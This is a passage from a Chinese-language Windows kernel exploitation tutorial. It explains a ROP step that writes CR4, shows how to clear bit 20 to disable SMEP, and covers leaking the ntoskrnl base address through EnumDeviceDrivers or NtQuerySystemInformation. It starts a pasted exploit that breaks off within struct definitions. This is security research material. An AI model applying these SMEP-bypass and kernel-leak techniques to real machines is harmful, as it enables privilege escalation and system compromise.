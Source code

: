 利用这个ROP，让RCX赋值为CR4。不过这里注意一点，由于这里使用的，此时如果使用IDA观察的话，需要知道当前段映射的真正偏移量。这个可以通过观察如下的特征知道:

```
.text:00401000 ; Section 1. (virtual address 00001000)
.text:00401000 ; Virtual size                  : 00295B24 (2710308.)
.text:00401000 ; Section size in file          : 00295C00 (2710528.)
```

每个段开头都会有一个`virtual address`，这个值表示的是当前段会映射的地址，具体计算方式为`real_address = image_base_address + virtual_address`。也就是说此时的`.text`段在内存中的真正的地址为:<br>`real_text = image_base_address + 0x1000`

然后我们需要观察cr4此时的正确的值。首先我们找到储了问题时的cr4:

```
For analysis of this file, run !analyze -v
nt!RtlpBreakWithStatusInstruction:
81b66484 cc              int     3
1: kd&gt; r cr4
cr4=001406e9
```

上网查找可知，第20bit为1表示的是SMEP打开（记得从低位往高位数，并且第一位数字是第0bit，第二位数字是第1bit），那么我们只需要将这一bit置0，即可以将这种防护关闭，此时也就是将值改成`0x0406e9`。<br>
有了ROP，那么我们就需要一个泄露内核地址的途径。这里有两种不同的方式，一个叫做:`EnumDrivers`的API，另一种是利用`NtQueryInformationSystem`的方式获取。前者是官方给出的API，通过调用直接获取地址，而后者是则是通过逆向分析+动态调试，验证可知当前的地址空间上存放的是`ntoskrl.exe`的基地址。<br>
前者直接就是一个API:

```
BOOL EnumDeviceDrivers(
  LPVOID  *lpImageBase,
  DWORD   cb,
  LPDWORD lpcbNeeded
);
```

并且据观察，返回的地址数组中`lpImageBase`，第一个就是`ntoskrl.exe`的基地址。不过使用这个方法的时候，需要用到管理员权限。<br>
这里打算用第一种方法实现地址泄露，第二种攻击方法参考[https://www.anquanke.com/post/id/173144](https://www.anquanke.com/post/id/173144)<br>
这里贴出用`NtQueryInformationSystem`的exp

```
typedef enum _SYSTEM_INFORMATION_CLASS `{`
    SystemBasicInformation = 0,
    SystemPerformanceInformation = 2,
    SystemTimeOfDayInformation = 3,
    SystemProcessInformation = 5,
    SystemProcessorPerformanceInformation = 8,
    SystemModuleInformation = 11,
    SystemInterruptInformation = 23,
    SystemExceptionInformation = 33,
    SystemRegistryQuotaInformation = 37,
    SystemLookasideInformation = 45
`}` SYSTEM_INFORMATION_CLASS;

typedef struct _SYSTEM_MODULE_INFORMATION_ENTRY `{`
    HANDLE Section;
    PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR FullPathName[256];
`}` SYSTEM_MODULE_INFORMATION_ENTRY, *PSYSTEM_MODULE_INFORMATION_ENTRY;

typedef struct _SYSTEM_MODULE_INFORMATION `{`
    ULONG NumberOfModules;
```